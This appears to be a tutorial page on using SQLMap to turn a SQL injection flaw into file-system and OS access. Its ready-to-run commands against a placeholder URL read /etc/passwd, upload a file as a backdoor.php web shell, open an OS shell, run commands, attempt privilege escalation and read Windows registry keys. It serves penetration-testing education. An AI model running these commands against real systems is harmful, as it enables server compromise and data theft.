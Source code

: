 ```yaml
---
title: File System Access
description: Learn how to access the file system through SQL injection vulnerabilities using SQLMap
---
```


# File System Access

SQLMap can leverage SQL injection vulnerabilities to interact with the underlying file system of the database server. This capability varies depending on the database management system (DBMS) and the privileges of the database user.

## Reading Files (`--file-read`)

To read files from the database server's file system:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --file-read="/etc/passwd"
```

This attempts to read the specified file from the server's file system. The file content will be stored in the SQLMap output directory.


## Writing Files (`--file-write` and `--file-dest`)

To write files to the database server's file system:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --file-write="local_file.php" --file-dest="/var/www/html/backdoor.php"
```

This command:
1. Takes a local file (`local_file.php`)
2. Uploads it to the target server
3. Saves it at the specified destination path (`/var/www/html/backdoor.php`)


## OS Shell Access (`--os-shell`)

SQLMap can attempt to gain operating system shell access:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell
```

This tries to leverage the SQL injection vulnerability to spawn a shell on the target system. SQLMap will attempt various techniques based on the DBMS:

- For MySQL: Uses `INTO OUTFILE` to write a web shell
- For Microsoft SQL Server: Uses `xp_cmdshell`
- For PostgreSQL: Uses `COPY TO/FROM` or UDF injection
- For Oracle: Uses Java or external table features

## OS Command Execution (`--os-cmd`)

To execute a single operating system command:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="id"
```

This executes the specified command on the target system and returns the output.

## Privilege Escalation

Some database systems allow for privilege escalation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --privileges --is-dba
```

This checks if the current database user has administrative privileges. If not, SQLMap can sometimes attempt privilege escalation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc
```

## Registry Access (Windows)

On Windows systems, SQLMap can access the registry:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --reg-read --reg-key="HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
```

This reads the specified registry key from a Windows target system.

